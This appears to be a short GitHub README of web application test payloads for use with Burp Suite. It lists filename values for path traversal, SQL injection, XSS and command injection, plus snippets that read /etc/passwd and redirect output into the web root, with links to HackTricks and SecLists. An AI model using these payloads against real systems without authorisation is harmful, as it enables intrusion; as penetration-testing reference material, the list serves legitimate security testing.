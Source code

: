 # webAppVulnScripts
Here is a repo of the collective vulnerability scripts used for web applications


## Parameters to include within burp
```
{fileName} = hello
{fileExtension} = jpg
{domain} = xxx.collaboraror.org
```

-- Try and include localhost 

### General rule
Set filename to ../../../tmp/lol.png and try to achieve a path traversal
Set filename to sleep(10)-- -.jpg and you may be able to achieve a SQL injection
Set filename to <svg onload=alert(document.domain)> to achieve a XSS
Set filename to ; sleep 10; to test some command injection --> https://book.hacktricks.xyz/pentesting-web/command-injection


### Not executed but may be interesting
```
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```

### References
https://book.hacktricks.xyz/pentesting-web/file-upload#from-file-upload-to-other-vulnerabilities
https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt
https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology
